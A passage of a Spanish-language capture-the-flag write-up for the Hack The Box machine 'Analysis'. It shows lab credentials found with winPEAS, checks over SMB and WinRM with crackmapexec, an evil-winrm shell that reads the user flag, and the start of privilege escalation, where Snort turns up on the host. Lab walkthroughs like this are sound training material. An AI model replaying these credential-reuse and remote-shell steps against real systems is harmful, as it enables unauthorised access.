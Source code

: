 - Después de correr el winPEASx64 nos da las credenciales del usuario `jdoe:7y4Z4^*y9Zzj`.

```bash
➜  Downloads cme smb analysis.htb -u jdoe -p '7y4Z4^*y9Zzj'
SMB         internal.analysis.htb 445    DC-ANALYSIS      [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC-ANALYSIS) (domain:analysis.htb) (signing:True) (SMBv1:False)
SMB         internal.analysis.htb 445    DC-ANALYSIS      [+] analysis.htb\jdoe:7y4Z4^*y9Zzj
```

- Vemos que también podemos conectarnos con `evil-winrm`.

```bash
➜  Downloads cme winrm analysis.htb -u jdoe -p '7y4Z4^*y9Zzj'
SMB         internal.analysis.htb 5985   DC-ANALYSIS      [*] Windows 10 / Server 2019 Build 17763 (name:DC-ANALYSIS) (domain:analysis.htb)
HTTP        internal.analysis.htb 5985   DC-ANALYSIS      [*] http://internal.analysis.htb:5985/wsman
WINRM       internal.analysis.htb 5985   DC-ANALYSIS      [+] analysis.htb\jdoe:7y4Z4^*y9Zzj (Pwn3d!)
```

## User flag

- Ya podemos leer la `flag`.

```bash
➜  Downloads evil-winrm -i 10.10.11.250 -u 'jdoe' -p '7y4Z4^*y9Zzj'

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\jdoe\Documents> type ..\Desktop\user.txt
cdb21e01560374f401e7d5b960a73d53
```

## Escalada de Privilegios

- Vemos que esta `snort` por allí <https://protecciondatos-lopd.com/empresas/snort-deteccion-intrusos/>.

```bash
*Evil-WinRM* PS C:\> dir


    Directory: C:\


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        6/12/2023  10:01 AM                inetpub
d-----        11/5/2022   8:14 PM                PerfLogs
d-----         5/8/2023  10:20 AM                PHP
d-----         7/9/2023  10:54 AM                private
d-r---       11/18/2023   9:56 AM                Program Files
d-----         5/8/2023  10:11 AM                Program Files (x86)
d-----         7/9/2023  10:57 AM                Snort
d-r---        5/26/2023   2:20 PM                Users
d-----        1/10/2024   3:52 PM                Windows
-a----         6/7/2024  11:17 PM         310050 snortlog.txt
```

